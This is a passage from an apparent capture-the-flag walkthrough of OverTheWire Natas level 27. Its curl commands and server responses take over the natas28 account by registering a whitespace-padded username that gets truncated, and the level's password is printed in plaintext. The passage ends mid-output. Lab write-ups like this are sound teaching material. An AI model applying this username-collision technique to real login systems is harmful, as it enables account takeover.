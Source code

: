 ```php
<script>var wechallinfo = { "level": "natas27", "pass": "55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
Wrong password for user: natas28<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Now, let's create `natas28` (with 57 spaces and a trailing `Z` for the overflow):

```php
$ echo "natas28$(printf '%*s' 57)Z"
natas28                                                         Z
$ curl -s -d "username=natas28                                                         Z&password=natas28" -X POST --user natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ http://natas27.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
User natas28                                                         Z was created!<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

And now log in with `natas28` (without trailing space) with the password we have created before:

```php
$ curl -s -d "username=natas28&password=natas28" -X POST --user natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ http://natas27.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
Welcome natas28!<br>Here is your data:<br>Array
(
    [username] =&gt; natas28
```